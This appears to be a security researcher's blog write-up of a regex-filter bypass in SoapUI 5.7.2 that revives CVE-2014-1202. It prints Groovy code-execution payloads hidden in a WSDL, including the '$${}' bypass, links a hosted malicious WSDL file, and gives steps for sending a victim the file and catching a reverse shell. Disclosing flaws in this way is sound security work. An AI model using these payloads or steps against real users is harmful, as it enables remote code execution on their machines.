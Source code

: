 # Arbitrary Code Injection Via Groovy Script Parser (SoapUI)


**Severity:** High

**Exploitability:** Medium

**Function:** XML/WSDL

Hello everyone,

In this blog, I will explain how I bypassed the mitigation for **CVE-2014-1202** using instrumentation.

While reviewing the **CVE-2014-1202** vulnerability, I noticed that in SoapUI, WSDL can be loaded from a URL or file. However, older versions of SoapUI do not have validation when loading XML/WSDL with a Groovy script, which can lead to a code injection issue.

---

### What is Groovy.

Groovy is **a scripting language for the Java platform**. It's a superset of Java, which means Java programs can run in the Groovy environment.

While Groovy can be a powerful tool, it is crucial to use it responsibly and securely. Always ensure that input validation and sanitization measures are in place to prevent code injection vulnerabilities.

---

To reproduce this issue, I attempted it with the latest version of SoapUI (5.7.2). 

You can download it from the following link: [**](https://www.soapui.org/downloads/latest-release/)https://www.soapui.org/downloads/latest-release/**

Also i did project setup and instrument using **Fusion Lite Project Manager.**

Download Malicious WSDL file of previous payload:  https://raw.githubusercontent.com/spookhorror/SOAPUICodeInjection/main/OLDWSDL.xml

To load WSDL please follow below step:
1. Click on SOAP and append endpoint of XML file. 
2. Click on “OK”

![image](https://github.com/spookhorror/Blogs/assets/67255423/5a9ef37f-3520-4d14-a939-7794ba50275f)

As we can see application is removing malicious content. Observe the logs.

```java
${=Runtime.getRuntime().exec('calc.exe')};
```
![image](https://github.com/spookhorror/Blogs/assets/67255423/6a06928f-619a-4108-af14-f45fb04986eb)
![image](https://github.com/spookhorror/Blogs/assets/67255423/1e461b97-8ece-4d81-a425-909c6e955829)

# Payloads and Regex Bypass:

In **Fusion Lite Analyzer** we can see that application has Class called **Tools** which is responsible for removing malicious content because it has regex functionality which will remove malicious content.

![image](https://github.com/spookhorror/Blogs/assets/67255423/7d528050-6c32-4f6e-b203-d692a62eb83f)
![image](https://github.com/spookhorror/Blogs/assets/67255423/2db890e8-4e51-40e3-a667-94b21828bd0e)

After trying multiple methods to bypass regex, I have created a payload where the regex only removes a specific string payload

I.e

Old Payload
![image](https://github.com/spookhorror/Blogs/assets/67255423/beda9bdd-7f6f-4782-b381-73d69975a3b3)

New Payload
![image](https://github.com/spookhorror/Blogs/assets/67255423/a61d0b7c-6d73-43ec-b58c-a8b99aaae5c7)

```java
$${}{=Runtime.getRuntime().exec('calc.exe')}; to ${=Runtime.getRuntime().exec('calc.exe')};
​
```

As we can see, the regex matches only specific characters from the payload. Therefore, the method below will remove only a specific substring from the payload and return the actual payload.
```java
public static String removePropertyExpansions(String definitionUrl, String definition) {
        Matcher matcher = PROPERTY_EXPANSION_CONTAINS_PATTERN.matcher(definition);
        while (matcher.find()) {
            log.warn(messages.get("Tools.Warning.PropertyExpansionRemovedFromDefinition", definitionUrl, matcher.group()));
        }
        return matcher.replaceAll("");
    }
}


com.eviware.soapui.support.Tools : java.lang.String removePropertyExpansions(java.lang.String definitionUrl, java.lang.String definition)
​
```
We need to update payload in WSDL file and again load in SoapUI.
Updated XML:

![image](https://github.com/spookhorror/Blogs/assets/67255423/519aad05-e3e8-4fd4-9656-96096c7ad917)
![image](https://github.com/spookhorror/Blogs/assets/67255423/32e12d26-548b-4a93-af1b-4786574e5cbf)

Click on 'Send Request' and observe the execution of the calculator.

![image](https://github.com/spookhorror/Blogs/assets/67255423/219ad647-12d5-43bb-a678-57fa14fa27a3)

With updated payload we can see that below method has removed only this ${} content from payload and return updated string.

Method:

```java
com.eviware.soapui.support.Tools : java.lang.String removePropertyExpansions(java.lang.String definitionUrl, java.lang.String definition)
```

Updated string:

```java
$${}{=Runtime.getRuntime().exec('calc.exe')}; to ${=Runtime.getRuntime().exec('calc.exe')};
```

![image](https://github.com/spookhorror/Blogs/assets/67255423/416aaab6-9ace-440f-abe1-3b36f406ef74)

Logs:
![image](https://github.com/spookhorror/Blogs/assets/67255423/53ea39b0-a44c-44db-8512-0252463551fc)



Here is updated content of request which contain malicious groovy script.
![image](https://github.com/spookhorror/Blogs/assets/67255423/a2927359-020a-483a-9c87-a522f3f33c3b)


The following method will execute a Groovy script that contains malicious code.

```java
groovy.lang.GroovyShell : groovy.lang.Script parse(java.lang.String)
```

![image](https://github.com/spookhorror/Blogs/assets/67255423/99fad30e-b7f8-45e7-8678-b1a36ae149f5)
![Screenshot 2023-12-09 142958](https://github.com/spookhorror/Blogs/assets/67255423/d9148f43-272c-4825-817b-6af27eda19c6)


# Exploitation Steps

#### 1. Host malicous WSDL and share it URL/FILE to Victim.
   For example.
![image](https://github.com/spookhorror/Blogs/assets/67255423/9fb8e8d8-1ede-4548-b547-f3195bed1e13)

#### 2. Initiate a Netcat listener on the attacker's machine.

![Screenshot 2023-12-09 171052](https://github.com/spookhorror/Blogs/assets/67255423/b635643b-722e-48b5-b94e-9dccda30255a)

#### 3. Load the malicious WSDL on the victim's machine and execute the request.

![Screenshot 2023-12-09 171057](https://github.com/spookhorror/Blogs/assets/67255423/9d671154-6e3f-4ccd-b9e0-f72fd4fd6a2e)

![Screenshot 2023-12-09 171159](https://github.com/spookhorror/Blogs/assets/67255423/e1076ccd-6bbb-4e05-b6e1-7499f94006b6)

#### 4. Observe the reverse shell on the attacker's machine. It is possible to obtain access to the victim's shell simply by providing a malicious WSDL via URL or file.

![Screenshot 2023-12-09 171204](https://github.com/spookhorror/Blogs/assets/67255423/4171c7ec-a7d1-42e2-82d1-960cbbe9aecd)

